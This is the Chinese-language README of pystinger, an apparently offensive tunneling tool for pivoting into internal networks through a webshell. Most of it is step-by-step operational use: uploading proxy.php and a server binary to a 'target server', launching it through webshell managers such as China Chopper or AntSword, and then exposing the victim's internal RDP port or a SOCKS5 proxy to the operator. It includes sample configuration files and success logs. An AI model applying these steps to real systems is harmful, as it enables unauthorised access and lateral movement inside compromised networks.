 # 毒刺(pystinger)
毒刺(pystinger)是一个通过webshell实现**内网端口转发出网&内网SOCK5代理出网**.工具主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.
# 使用方法
## 端口转发
* proxy.php上传到目标服务器,确保 [http://www.test.com/proxy.php](http://192.168.1.106:81/proxy.php)可以访问,页面返回 stinger XXX!
* 修改config.ini,示例如下(确保服务器127.0.0.1:8000,127.0.0.1:1080可以正常绑定)
```
[NET-CONFIG]
WEBSHELL = http://www.test.com/proxy.php
SERVER_LISTEN = 127.0.0.1:8000
TARGET_ADDR = 127.0.0.1:3389
LOCAL_ADDR = 127.0.0.1:33899

[TOOL-CONFIG]
LOG_LEVEL = INFO
READ_BUFF_SIZE = 10240
SLEEP_TIME = 0.0
```
* 将stinger_server.exe和config.ini上传到目标服务器同一目录,菜刀(蚁剑)执行mirror_server.exe启动服务端
* stinger_client和config.ini拷贝到本地PC的同一目录,命令行执行stinger_client,生成如下输出表示成功
```
2019-09-29 12:57:11,493 - INFO - 215 - Use SERVER_LISTEN as REMOTE_SERVER
2019-09-29 12:57:11,493 - INFO - 219 -  ------------Client Config------------
2019-09-29 12:57:11,493 - INFO - 222 - 
LOG_LEVEL: INFO
SLEEP_TIME:0.1
READ_BUFF_SIZE: 10240
WEBSHELL: http://192.168.3.10:82/proxy.php
REMOTE_SERVER: http://127.0.0.1:8000
LOCAL_ADDR: 127.0.0.1:33899


2019-09-29 12:57:11,500 - INFO - 63 -  ------------Server Config------------
2019-09-29 12:57:11,500 - INFO - 69 - 
LOG_LEVEL: INFO
READ_BUFF_SIZE: 10240
SERVER_LISTEN: 127.0.0.1:8000
TARGET_ADDR: 127.0.0.1:3389
client_address_list:[]
SOCK5: False
```
* 此时已经将192.168.3.10的3389端口映射到了你本地pc的33899端口
## SOCK5代理
* proxy.php上传到目标服务器,确保 [http://www.test.com/pro](http://192.168.1.106:81/proxy.php)[xy.](http://192.168.1.106:81/proxy.php)[php](http://192.168.1.106:81/proxy.php)可以访问,页面返回 stinger XXX!
* 修改config.ini,示例如下(确保服务器127.0.0.1:8000可以正常绑定)
```
[NET-CONFIG]
WEBSHELL = http://www.test.com/proxy.php
SERVER_LISTEN = 127.0.0.1:8000
TARGET_ADDR = 127.0.0.1:1080
LOCAL_ADDR = 127.0.0.1:10800

[TOOL-CONFIG]
LOG_LEVEL = INFO
READ_BUFF_SIZE = 10240
SLEEP_TIME = 0.01
[ADVANCED-CONFIG]
SOCKS5 = True
```
* 将stinger_server.exe和config.ini上传到目标服务器同一目录,菜刀(蚁剑)执行mirror_server.exe启动服务端
* stinger_client和config.ini拷贝到本地PC的同一目录,命令行执行stinger_client,生成如下输出表示成功
```
2019-09-29 13:03:41,164 - INFO - 215 - Use SERVER_LISTEN as REMOTE_SERVER
2019-09-29 13:03:41,164 - INFO - 219 -  ------------Client Config------------
2019-09-29 13:03:41,164 - INFO - 222 - 
LOG_LEVEL: INFO
SLEEP_TIME:0.1
READ_BUFF_SIZE: 10240
WEBSHELL: http://192.168.3.10:82/proxy.php
REMOTE_SERVER: http://127.0.0.1:8000
LOCAL_ADDR: 127.0.0.1:10800


2019-09-29 13:03:41,171 - INFO - 63 -  ------------Server Config------------
2019-09-29 13:03:41,171 - INFO - 69 - 
LOG_LEVEL: INFO
READ_BUFF_SIZE: 10240
SERVER_LISTEN: 127.0.0.1:8000
TARGET_ADDR: 127.0.0.1:1080
client_address_list:[]
SOCK5: True
2019-09-29 13:03:41,171 - INFO - 72 - Connet to server success
2019-09-29 13:03:41,173 - WARNING - 43 - LoopThread start
2019-09-29 13:03:41,173 - WARNING - 234 - Tcpserver start
```
* 此时已经你本地10800启动了一个192.168.3.10所在内网的socks5代理
# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)
[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)
[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)
# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0
# 更新日志
**1.0**
更新时间: 2019-09-29
* 1.0正式版发布

